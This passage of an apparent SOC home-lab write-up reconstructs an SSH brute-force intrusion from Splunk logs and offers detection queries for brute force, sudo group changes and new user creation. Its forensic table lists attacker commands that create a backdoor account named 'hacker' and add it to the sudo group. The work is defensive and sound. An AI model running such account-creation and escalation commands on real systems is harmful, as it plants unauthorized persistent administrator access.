| rex field=_raw "USER=(?<run_as>\S+) ; COMMAND=(?<executed_command>.*)"
| table _time, USER, run_as, executed_command
```



**Forensic Reconstruction Table:**

| Timestamp | Process User | Executed As (`run_as`) | Executed Command | TTP / Forensic Context |
|---|---|---|---|---|
| **17:51:22.856** | `root` | `root` | `/usr/sbin/useradd hacker` | **Persistence:** Backdoor account created |
| **17:52:58.928** | `root` | `root` | `/usr/sbin/groupmod hacker sudo` | **Privilege Escalation:** Incorrect syntax attempt |
| **17:53:47.707** | `root` | `root` | `/usr/sbin/usermod -aG sudo hacker` | **Privilege Escalation:** Succeeded; added to sudoers |
| **17:54:41.131** | `root` | `root` | `/usr/sbin/adduser hacker sudo` | **Verification:** Redundant attempt to ensure sudo access |
| **17:56:15.128** | `root` | `root` | `/usr/bin/su -hacker` | **Lateral Movement:** Attempted to switch into new account |

This SPL search surfaced **15 matching events**, demonstrating how a SOC analyst can rebuild the attacker's complete post-exploitation command line sequence purely from forwarded syslog data.

---

## Key Findings & Takeaways

1. **Weak passwords break perimeter defense in seconds.**  
   A simple dictionary wordlist cracked `sudosu` almost instantly. Key-based authentication (disabling password authentication entirely) remains the most effective defense against SSH brute-forcing.

2. **Built-in rate limiting is a speed bump, not a block.**  
   Ubuntu's `srclimit_penalise` delayed connection attempts, but did not drop or ban the offending IP permanently. Production environments need dedicated tooling like `fail2ban` or host-based firewall rules (`ufw` / `iptables`).

3. **Network capture and host logs must be paired together.**  
   Wireshark is invaluable for spotting connection velocity and handshake anomalies, but encrypted payloads keep defenders blind to credentials and commands. Host telemetry (`auth.log`) is essential for post-exploitation triage.

4. **Dynamic parsing with `rex` accelerates SIEM hunting.**  
   Using regex field extractions on the fly allowed structured, relational analysis across unstructured log text without needing predefined field extractions at ingestion time.

5. **Local user creation + immediate sudo group addition is a high-fidelity anomaly.**  
   Any sequence of `useradd` followed immediately by `usermod -aG sudo` from an interactive SSH session should immediately trigger a critical SOC alert.

---

## Detection Rules for Production SIEMs

Based on the evidence from this exercise, here are actionable detection queries for a production Splunk deployment:

### 1. SSH Brute-Force Activity (High Frequency)
```spl
index=main source="/var/log/auth.log" "Failed password"
| rex field=_raw "from (?<src_ip>\d+\.\d+\.\d+\.\d+)"
| stats count by src_ip
| where count > 10
```

### 2. Privilege Escalation to Sudo Group
```spl
index=main source="/var/log/auth.log" ("add member" OR "to group") AND ("sudo" OR "wheel" OR "admin")
| table _time, host, _raw
```

### 3. Suspicious New User Creation
```spl
index=main source="/var/log/auth.log" "useradd" "new user:"
| rex field=_raw "name=(?<created_user>\w+)"
| table _time, host, created_user, _raw
```

### 4. Repeated Failed `su` Attempts
```spl
index=main source="/var/log/auth.log" "FAILED SU"
| stats count by host, _raw
```

---

## Disclaimer
This lab was conducted entirely within an isolated, self-hosted virtual lab environment for educational and defense-building purposes. All tools and techniques were executed strictly on infrastructure owned and controlled by the operator.